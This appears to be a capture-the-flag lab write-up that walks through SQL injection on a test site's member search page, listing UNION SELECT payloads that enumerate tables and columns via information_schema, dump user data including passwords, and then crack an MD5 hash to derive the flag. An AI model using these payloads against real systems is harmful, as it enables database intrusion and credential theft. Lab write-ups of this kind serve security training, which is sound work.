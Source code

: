 <h1>On to the sixth flag</h1>


<h2>How to get flag</h2>

<ol>
<li>Navigate to http://192.168.1.100/index.php?page=member</li>
<li>Enter 1 or 1 = 1 inside search bar to test for basic sql injection</li>
<li>Try to get the name of the table using information_schema object</li>
    <p>Run the following script inside the search input field</p><br/>
    <p>
        ''
            1=1  UNION SELECT  table_name, 1 FROM information_schema.tables WHERE table_schema = database() 
        ''
        We should see the table returned is 'users'
    </p>
<li>Since we know the table name we can try to see what the contents are. First we need to know what the columns are though</li>
 <p>Run the following script inside the search input field</p><br/>
    <p>
        ''
            1=1  UNION SELECT  column_name, 1 FROM information_schema.columns WHERE table_schema = database()
        ''
    </p>
<li>So now we know the tables name and the columns in it so we can try to return the data inside the columns we got back now</li>
    <p>Run the following script inside the search input field</p><br/>
    <p>
        ''
            1=1 UNION SELECT null, concat (user_id,first_name,last_name,town,country ,planet,commentaire,countersign) from users
        ''
    </p>
<li>Inside your results you should see this inside one of the surname fields</li>
<p>Surname : 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28</p>
<li>So from the surname property we see to decode the password using MD5 then lowercasing the password </li>
<p>
    '''
    MD5 decrpyt result = FortyTwo
    lowercased = fortytwo
    '''
</p>
<li>After running sha 256 calculator on the lowercased result = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5</li>
</ol>


<h3>Well done we found the first flag!</h3>

